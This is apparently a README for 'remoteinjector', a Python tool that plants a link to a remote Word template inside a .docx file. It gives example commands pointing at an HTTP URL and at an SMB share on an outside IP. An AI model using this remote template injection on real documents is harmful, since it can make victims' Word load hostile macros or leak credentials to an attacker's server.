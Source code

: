 # remoteinjector
Injects link to remote word template into word document
## Requirements
- Python2.7
## Usage
```
usage: remoteinjector.py [-h] [-w URL] F

Inject Template Through Relationship Settings

positional arguments:
  F           .docx file to inject template into

optional arguments:
  -h, --help  show this help message and exit
  -w URL      remote url to template

Example of use
To inject remote http url:

remoteinjector.py -w https://example.com/template.dotm example.docx

To inject SMB path:

remoteinjector.py -w \\1.1.1.1\C$\TEMP\template.dotm example.docx
```
